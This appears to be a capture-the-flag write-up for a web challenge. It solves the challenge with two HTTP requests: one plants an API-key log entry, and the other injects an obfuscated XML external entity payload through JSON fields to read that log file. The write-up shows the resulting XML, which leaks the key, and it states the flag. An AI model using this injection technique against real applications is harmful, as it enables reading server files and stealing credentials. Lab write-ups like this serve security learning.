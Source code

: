 # Objective

# Solution

First send a request with a bad apiKey to generate log file. Then read log file with second request.

The issue is how they are replacing strings in the xml file. You want to create an entity that is able to read a local file (the log file).

```
### Flag really is H858FDSKL49FK09K4590KFK2390KCFVC12

### First send the first request
### Second send the second request

POST https://chal35-g7sg4j.vercel.app/getCRMUsers HTTP/1.1
Content-Type: application/json

{
    "apiKey": "wrong"
}

###

POST https://chal35-g7sg4j.vercel.app/createCard HTTP/1.1
Content-Type: application/json

{
  "role": "role\"> --> <ENTITY!EDOCTYPENDOCTYPETDOCTYPEIDOCTYPETDOCTYPEY role SENTITYYENTITYSENTITYTENTITYEENTITYM \"/tmp/last_req.log",
  "firstName": "fn",
  "lastName": "ln\"> <ENTITY!--"
}

###
```

The second request will generate XML that looks like this: (note the contents of the log file are injected)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE userCard [
<!ENTITY firstName "fn">
<!ENTITY lastName "ln">
<!--"><!ENTITY role "role"> --><!ENTITY role SYSTEM "/tmp/last_req.log">
]>
<userInfo>
<fullRef>fn ln, Expected API Key: H858FDSKL49FK09K4590KFK2390KCFVC12 | Received API Key: wrong</fullRef>
<firstName>fn</firstName>
<lastName>ln</lastName>
</userInfo>
```
